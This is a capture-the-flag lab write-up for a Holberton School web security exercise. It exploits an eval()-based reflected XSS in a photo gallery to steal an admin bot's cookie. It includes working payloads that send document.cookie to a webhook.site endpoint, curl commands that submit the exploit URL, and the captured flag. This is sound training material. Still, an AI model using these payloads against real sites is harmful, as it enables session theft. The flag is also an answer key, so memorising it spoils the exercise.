






# Task 0. Advanced XSS Challenge - Photo Gallery Exploitation

Explore and exploit an XSS vulnerability in the provided photo gallery web application to capture the administrator's cookie. This task simulates a real-world web attack scenario, focusing on advanced techniques in web application security.

Holberton School has created a photo gallery app for users to share their favorite pictures. While regular users can view and suggest photos, only the admin has the authority to approve and add them. Your mission is to exploit a vulnerability in the Suggestion Page to capture the admin's cookie using a malicious payload. Successfully retrieving the admin's cookie will allow you to obtain the flag, which is the main objective of this task.

**Instructions**:

- Review the provided index.html file for potential vulnerabilities.
- Look for parameters in the JavaScript code that can be manipulated (e.g., holberton parameter in the eval function).
- Use the identified vulnerability to craft a malicious URL that executes your payload when accessed by the admin.
- Ensure the payload sends the admin's cookies to your external webhook.

**Tips**:

- Inspect the JavaScript carefully to identify how inputs are processed.
- Utilize tools such as the browser's developer console and Webhook.site to assist in payload testing and capturing cookies.
- Pay close attention to eval() and how the parameter holberton is being used in the provided HTML code.
- Review any browser behaviors (e.g., cross-origin requests) that may affect your payload delivery.

- Initial Endpoint: [http://web0x0a.task0.hbtn/](http://web0x0a.task0.hbtn/)

- Suggestion Endpoint: [Suggestion](http://web0x0a.task0.hbtn/report)

- Monitor Webhook for Cookies: [Webhook](https://webhook.site)

- Code base: [index.html](https://github.com/hs-hq/web0x0a/blob/main/task_0/index.html)

Repo:

- GitHub repository: `dlh-cyber_security`
- Directory: `web_application_security/0x0a_advanced_web_attack_techniques`
- File: `0-flag.txt`


## **Solution**:

- Start sandbox `cyber_websec_0x0a_task0`.
- Start openvpn.
- Put IP address of the sandbox in `/etc/hosts` file.
```bash
echo "10.42.80.157 web0x0a.task0.hbtn" | sudo tee -a /etc/hosts
sudo vim /etc/hosts
ping -c 2 web0x0a.task0.hbtn
```

## **Solution**

### **Task 0: Step 1 - Identify the XSS vulnerability**

Checking the [index.html source code](https://github.com/hs-hq/web0x0a/blob/main/task_0/index.html?utm_source=chatgpt.com) we can see the XSS vulnerability:

```
const holberton = new URL(location).searchParams.get("holberton") || '';
eval(holberton);
```

**Why is this vulnerable?**

The application takes JavaScript from the `holberton` URL parameter and executes it directly using `eval()`, without validation.

This creates a reflected XSS vulnerability.


The target IP is: `10.42.80.157`.

The assignment explicitly requires IP addresses, so we'll use `10.42.80.157` for the exploit and final submission.

### **Step 2: Verify the XSS vulnerability**

Open this URL directly in your Kali Firefox browser:

```url
http://10.42.80.157/?holberton=alert(document.domain)
```

**What's happening?**

1. The application reads the `holberton` parameter.
2. `eval()` executes `alert(document.domain)`.
3. If the vulnerability is exploitable, JavaScript displays an alert containing the site's domain (or IP address).

**Result:**




The popup confirms that the `holberton` parameter executes arbitrary JavaScript through `eval()`.

### **Step 3: Test communication with Webhook.site**

Before submitting a URL for admin review, let's verify that JavaScript running on the gallery can send an HTTP request to our webhook.

Open this URL in Firefox:

```
http://10.42.80.157/?holberton=new%20Image().src%3D%22https%3A%2F%2Fwebhook.site%2F0a753172-1f95-4be4-9391-2a5d668781f3%3Fprobe%3D1%22
```

**How it works:**

- `new Image()` creates a JavaScript image object.
- Setting `.src` triggers an HTTP request to our webhook.
- `probe=1` lets us identify the test request.
- This technique doesn't require CORS permission to send the request.

No cookies are transmitted in this test.

**Expected result:** Your Webhook.site inbox receives a GET request containing `probe=1`.

---

## **1. What is a webhook?**

A webhook is a way for one application to send information to another application over HTTP.

Think of it as a mailbox:

- Someone sends a message to our mailbox.
- The mailbox receives and stores it.
- We open the mailbox to read the message.

**Webhook.site gives us a temporary HTTP endpoint that can receive and display requests.**

In our lab, we are using it to observe requests generated by JavaScript running inside the vulnerable gallery.

## **2. How does it work in our XSS challenge?**

```Mermaid
flowchart TD
    A["Firefox opens the gallery"] --> B["Gallery executes JavaScript via eval()"]
    B --> C["JavaScript sends an HTTP GET request"]
    C --> D["Webhook.site receives the request"]
    D --> E["You inspect the request in your inbox"]
```

For our current test, the request contains only `probe=1`.

Later, the exercise involves understanding how information accessible to JavaScript could be included in such a request.

## **3. Understanding the Webhook.site page**

The `webhook.site` screenshot shows two important URLs.

**A. The receiving endpoint**

```
https://webhook.site/0a753172-1f95-4be4-9391-2a5d668781f3
```

This is where HTTP requests are sent.

The long identifier is unique to our Webhook.site inbox.

**B. The inbox URL**

```
https://webhook.site/#!/view/0a753172-1f95-4be4-9391-2a5d668781f3
```

This is the page we use to inspect received requests.

The difference:

| URL                | Purpose                    |
| ------------------ | -------------------------- |
| Receiving endpoint | Receives HTTP requests     |
| Inbox URL          | Displays received requests |

We don't need to manually submit anything on Webhook.site. It listens for incoming requests automatically.

## **4. What does our JavaScript do?**

Consider:

```
new Image().src = "https://webhook.site/OUR-ID?probe=1";
```

Here's what happens:

1. `new Image()` creates an image object in JavaScript.
2. `.src = ...` tells the browser to fetch an image from the specified URL.
3. Firefox sends an HTTP GET request.
4. Webhook.site receives the request and records its details.

The interesting trick is that **we don't actually care about displaying an image**.

We're using the browser's image-loading mechanism to send an HTTP request.

It even works if the response isn't a valid image.

This technique is commonly called an *image beacon*.

---

**Our lab Result**:




✅ Step 3 successful

The screenshot confirms:

- **GET request received:** Webhook.site is working.
- **Query parameter:** `probe=1`.
- **Referer:** `http://10.42.80.157/`.
- `sec-fetch-dest: image`**:** Confirms the request came from our JavaScript image beacon.

We have verified both the XSS vulnerability and communication with the webhook.

### **Step 4: Submit the XSS payload for admin review**

The next step is to make the administrator's browser execute the JavaScript.

Our payload is:

```
new Image().src =
  'https://webhook.site/0a753172-1f95-4be4-9391-2a5d668781f3?cookie='
  + encodeURIComponent(document.cookie)
```

Here, `document.cookie` reads cookies accessible to JavaScript, and `encodeURIComponent()` makes the value safe to include in a URL.

**Action:**

1. Open `http://10.42.80.157/report`
2. Paste the following into the submission field:

```
/?holberton=new%20Image().src%3D'https%3A%2F%2Fwebhook.site%2F0a753172-1f95-4be4-9391-2a5d668781f3%3Fcookie%3D'%2BencodeURIComponent(document.cookie)
```

3\. Click **Submit**.

We're using a relative path because the report form suggests that format. The gallery itself is still being accessed through the required IP address.

If the admin bot visits the URL with a JavaScript-readable session cookie, the payload will send its value to our webhook.

**Our Result:**

> *An error occurred while processing your request.*


This error suggests the report endpoint couldn't process the submission. It doesn't necessarily mean the XSS payload failed.

We need to establish whether the admin bot visited our URL before the error occurred.

### **Step 5: Check whether the payload executed**

**One action:** Switch to your Webhook.site tab and refresh the page.

Look for a **new GET request** with a query parameter named `cookie`, rather than `probe`.

- If a new request contains `cookie=...`, the payload executed.
- If there is no new request, the submission likely failed before the bot visited the URL.
- If `cookie` is empty, the JavaScript executed but didn't find any readable cookies.

**Our Result:**

> *No new requests were received.*


The webhook still shows only our original `probe=1` request.

This suggests the admin bot never reached our payload. Let's isolate the problem.

### **Step 6: Test the report form with a simple URL**

We need to determine whether the error is caused by:

1. Our XSS payload.
2. The URL format.
3. The report service itself.

**Your next action:**

Open `http://10.42.80.157/report`

Enter only:

```
/
```

Then click **Submit**.

This requests a review of the gallery's homepage, without any JavaScript payload.

**Our Result:**

> *An error occurred while processing your request.*

Interesting. Since submitting `/` produces the same error, **the problem is not specific to our XSS payload**.

The report form may be malfunctioning, or its backend may expect a different URL format.

### **Step 7: Inspect the report page's source code**

Let's see how the form submits URLs to the server.

**Run this command in the Kali terminal:**

```bash
curl -sS http://10.42.80.157/report
```

This retrieves the report page's HTML source.

We're looking for:

- The form's submission endpoint (`action`).
- The HTTP method (`POST` or `GET`).
- The input field's name.
- Any JavaScript responsible for submitting URLs.


**Command output:**

```html
curl -sS http://10.42.80.157/report

<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Report a URL</title>
  <link rel="stylesheet" href="/styles.css">
</head>
<body>
  <form action="/report" method="POST">
    <h2>Submit a URL for Review</h2>
    <input type="text" name="url" placeholder="Enter the URL (e.g., /path/to/xss)">
    <button type="submit">Submit</button>
  </form>
</body>
</html>
```

The HTML confirms the form uses a standard POST request:

```html
<form action="/report" method="POST">
    <input type="text" name="url">
    <button type="submit">Submit</button>
</form>
```

So we know:

- **Endpoint:** `/report`
- **Method:** `POST`
- **Parameter:** `url`
- **Expected input:** A URL or relative path

Our previous submissions followed that structure.

### **Step 8: Inspect the server's HTTP response**

Let's reproduce the error using `curl` so we can inspect the HTTP status code.

Run this command in Kali:

```bash
curl -i -sS -X POST -d 'url=/' http://10.42.80.157/report
```

The options mean:

- `-i`: Include HTTP response headers.
- `-sS`: Suppress progress output but show errors.
- `-X POST`: Use the POST method.
- `-d 'url=/'`: Submit `/` as the `url` form field.

**What we're looking for:**

| HTTP status                 | Interpretation                                                                 |
| --------------------------- | ------------------------------------------------------------------------------ |
| `200 OK`                    | Server processed the request, though the application may still report an error |
| `400 Bad Request`           | Request validation failed                                                      |
| `500 Internal Server Error` | Backend encountered an error                                                   |
| `502/503`                   | Backend service may be unavailable                                             |


**Command output:**

```bash
curl -i -sS -X POST -d 'url=/' http://10.42.80.157/report

HTTP/1.1 500 Internal Server Error
Server: nginx/1.18.0
Date: Tue, 24 Nov 2026 14:35:02 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 48
Connection: keep-alive
X-Powered-By: Express
ETag: W/"30-Lr2wlAYiQ3uSDVS3kmFNIYYApUE"

An error occurred while processing your request.
```

### **Step 9: Test an absolute URL**

The response gives us an important clue:

```
HTTP/1.1 500 Internal Server Error
Server: nginx/1.18.0
X-Powered-By: Express
```

The POST request reached the Express application, but **the backend encountered an error while processing it**.

This is not an XSS error, because we submitted only `/`.

One possibility is that the report handler expects an absolute URL despite the form's placeholder suggesting relative paths.

**Run this command:**

```
curl -i -sS --data-urlencode 'url=http://10.42.80.157/' http://10.42.80.157/report
```


**Command output:**

```bash
curl -i -sS --data-urlencode 'url=http://10.42.80.157/' http://10.42.80.157/report

HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Tue, 24 Nov 2026 14:39:02 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 35
Connection: keep-alive
X-Powered-By: Express
ETag: W/"23-WP1PZfUmSw73VF8TTpCxkFwCkZQ"

The admin bot has visited your URL.
```

✅ Report endpoint working

Excellent! We've identified the issue.

The report service **requires an absolute URL**, even though its placeholder suggests relative paths.

Your results:

| Submitted URL          | Result                      | Duration     |
| ---------------------- | --------------------------- | ------------ |
| `/`                    | `500 Internal Server Error` | \~5 seconds  |
| `http://10.42.80.157/` | `200 OK`, admin bot visited | \~20 seconds |

The longer execution time is consistent with the bot opening the page and waiting before completing its visit.

### **Step 10: Submit the XSS payload using the correct format**

Now that we know how to trigger the admin bot, let's submit the complete exploit.

**Execute this single command in Kali:**

```
curl -i -sS --data-urlencode 'url=http://10.42.80.157/?holberton=new%20Image().src%3D%22https%3A%2F%2Fwebhook.site%2F0a753172-1f95-4be4-9391-2a5d668781f3%3Fcookie%3D%22%2BencodeURIComponent(document.cookie)' http://10.42.80.157/report
```

This submits an absolute URL containing the encoded JavaScript payload.

When the bot visits it, the script attempts to send its JavaScript-accessible cookies to our webhook.

**Expected response:**

```
HTTP/1.1 200 OK

The admin bot has visited your URL.
```

It may take around 20 seconds.

**Command output:**

```bash
curl -i -sS --data-urlencode 'url=http://10.42.80.157/?holberton=new%20Image().src%3D%22https%3A%2F%2Fwebhook.site%2F0a753172-1f95-4be4-9391-2a5d668781f3%3Fcookie%3D%22%2BencodeURIComponent(document.cookie)' http://10.42.80.157/report

HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Tue, 24 Nov 2026 14:45:11 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 35
Connection: keep-alive
X-Powered-By: Express
ETag: W/"23-WP1PZfUmSw73VF8TTpCxkFwCkZQ"

The admin bot has visited your URL.
```

✅ Step 10 successful

Excellent! The server returned:

```
HTTP/1.1 200 OK
The admin bot has visited your URL.
```

This confirms that the admin bot visited our malicious URL.

We now need to verify whether the JavaScript executed in the admin's browser and transmitted its cookie.

### **Step 11: Inspect the webhook**

**Action:**

Open our Webhook.site inbox `https://webhook.site/#!/view/0a753172-1f95-4be4-9391-2a5d668781f3` and refresh the page.

Look for a new **GET request**, received around `14:45:11 UTC` (when the command returned `200 OK`).

Click that request and examine the **Query strings** section.





✅ Task 0 exploit successful!

We've captured the administrator's cookie. Your screenshot shows two GET requests from the admin bot, and the selected request contains:

```
cookie = flag=4c76067b54ceab9caf3fb763f369f4ec
```

CAPTURED FLAG

`4c76067b54ceab9caf3fb763f369f4ec`


### **What we accomplished**

1. Identified the `eval()` vulnerability.
2. Confirmed arbitrary JavaScript execution.
3. Tested an image beacon using Webhook.site.
4. Discovered that the report endpoint requires absolute URLs.
5. Triggered the admin bot and captured its flag cookie.

### **Step 12: Submit the flag**

We now need to save the flag in:

`web_application_security/0x0a_advanced_web_attack_techniques/0-flag.txt`


```bash
echo "4c76067b54ceab9caf3fb763f369f4ec" > 0-flag.txt
git add .
git commit -m "0-flag.txt"
git push origin main
```
